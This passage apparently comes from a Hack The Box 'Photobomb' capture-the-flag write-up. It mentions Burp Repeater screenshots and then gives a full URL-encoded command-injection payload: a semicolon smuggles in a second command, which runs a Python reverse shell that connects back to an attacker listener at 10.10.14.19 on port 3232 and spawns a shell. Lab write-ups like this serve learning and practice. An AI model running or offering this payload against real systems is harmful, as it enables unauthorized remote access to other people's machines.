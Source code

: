 ![Repeater](/docs/assets/images/HTB/photobomb/pbombedit1.png)

![working ping](/docs/assets/images/HTB/photobomb/pbombedit2.png)

/* For some reason these screenshots got lost during my documentation process and the ip_address of my connection to the vpn changed when I went back to retake them.

After some more trial and error I was finally able to find a *URL encoded* *Python* script that works. It sends a reverse shell to a listener I set up in a new terminal window.

`%3bexport+RHOST%3d"10.10.14.19"%3bexport+RPORT%3d3232%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'`
